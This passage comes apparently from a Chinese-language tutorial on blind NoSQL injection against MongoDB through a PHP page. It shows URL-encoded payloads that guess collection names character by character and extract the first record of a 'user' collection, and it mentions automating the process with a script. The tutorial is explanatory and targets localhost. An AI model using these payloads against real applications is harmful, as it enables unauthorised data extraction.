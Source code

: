 > http://127.0.0.1/3.php?news=test'%26%26db.getCollectionNames()[0][0]>'a'%26%26'1'=='1

返回正常，第一个集合名称第一个字符大于a

> http://127.0.0.1/3.php?news=test'%26%26db.getCollectionNames()[0][0]=='m'%26%26'1'=='1

返回正常，第一个集合名称第一个字符为m

![enter image description here](http://drops.javaweb.org/uploads/images/736ca15d73b25d5de2a53ea1ba0ebf456103cb52.jpg)

最终可以破解出存在user集合。

查user集合中的第一条数据。

> http://127.0.0.1/3.php?news=test'%26%26tojson(db.user.find()[0])[0]=='{'%26%26'1'=='1

因为db.user.find()返回的不是一个字符串，无法取出字符进行比较，我们可以将它转化成一个json字符串，就可以比较了。 道理讲明白了，剩下的都是体力活，用python或者php写下小脚本就能实现自动化。

0x03 Referer
============

* * *

http://drops.wooyun.org/papers/850

http://webcache.googleusercontent.com/search?q=cache:fPNiwObqKcEJ:hi.baidu.com/d4rkwind/item/ad7b81efb799ce2e6dabb8c3+&cd=1&hl=zh-CN&ct=clnk&gl=cn